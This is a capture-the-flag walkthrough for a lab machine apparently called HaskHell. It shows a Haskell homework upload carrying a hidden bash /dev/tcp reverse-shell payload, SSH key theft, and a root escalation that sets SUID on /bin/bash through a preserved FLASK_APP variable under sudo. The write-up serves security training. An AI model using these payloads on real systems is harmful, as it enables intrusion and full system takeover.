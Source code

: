 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 5001 | HTTP |



# RECONNAISSANCE
---


We can begin by visiting the web application:

![Pasted image 20250404151817.png](../../IMAGES/Pasted%20image%2020250404151817.png)


If we go to the homework section, we can see the following:


![Pasted image 20250404152029.png](../../IMAGES/Pasted%20image%2020250404152029.png)

We can go to the link and it will take us here:

![Pasted image 20250404152050.png](../../IMAGES/Pasted%20image%2020250404152050.png)

If we fuzz, we can find the submit directory in which we can upload a `haskell` file:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.110.142:5001/FUZZ" -ic -c -t 200\

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.110.142:5001/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
submit [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 655ms]

```


A Haskell file (with the`.hs` extension) is a text file containing code written in the Haskell programming language, a purely functional, statically typed language. These files are used to define functions, data types, and program logic. When compiled or interpreted, the code is executed to perform tasks.

Based on that, we can begin exploitation.


# EXPLOITATION
---


Ok, if we read the homework section, we can find the indications on how to upload the Haskell file:

```
1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code" 
```


Nice, if we follow the instructions, we can create a payload to receive a reverse shell:

```haskell
module Main where

import System.Process

-- Homework functions (required to pass checks)
fib :: Int -> Int -> [Int]
fib a b = take 100 $ a : b : zipWith (+) (fib a b) (tail (fib a b))

range :: Int -> Int -> [Int]
range x y = [x..y]

grey :: Int -> [String]
grey n
 | n <= 0 = [""]
 | otherwise = map ('0':) prev ++ map ('1':) (reverse prev)
 where prev = grey (n-1)

-- Reverse shell payload (adjust IP/PORT)
main :: IO ()
main = callCommand "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

If we upload the file, and set up our listener, we can see the following:

![Pasted image 20250404152827.png](../../IMAGES/Pasted%20image%2020250404152827.png)

There we go, we got our shell. Let's start privilege escalation.




# PRIVILEGE ESCALATION
---


Let's begin by stabilizing the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read user.txt now:

```
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
```

We can grab the `id_rsa` from `prof` and log into ssh:

![Pasted image 20250404153210.png](../../IMAGES/Pasted%20image%2020250404153210.png)


If we check our sudo privileges, we can notice this:

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
 env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
 (root) NOPASSWD: /usr/bin/flask run
```

Let's read the script:

```python
prof@haskhell:~$ cat /usr/bin/flask

#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
 sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
 sys.exit(
 load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
 )
```


- The`FLASK_APP` environment variable is preserved due to`env_keep` in the sudoers configuration. 
- By pointing`FLASK_APP` to a malicious script, Flask executes it as root when`sudo flask run` is called.
- This bypasses restrictions because the script runs in the context of the Flask process (owned by root).

So, we can do the following:

1. Create a malicious file with the following contents:

```python
import os
os.system('chmod u+s /bin/bash') # Set SUID bit on /bin/bash
```

2, Set the environment variable:

```
export FLASK_APP=exploit.py
```

3. Run flask as root:

```
sudo /usr/bin/flask run
```

We can see the following:

![Pasted image 20250404154306.png](../../IMAGES/Pasted%20image%2020250404154306.png)

There we go, we got our root shell and can finally read `root.txt`:

```
bash-4.4# cat /root/root.txt
flag{im_purely_functional}
```

![Pasted image 20250404154405.png](../../IMAGES/Pasted%20image%2020250404154405.png)

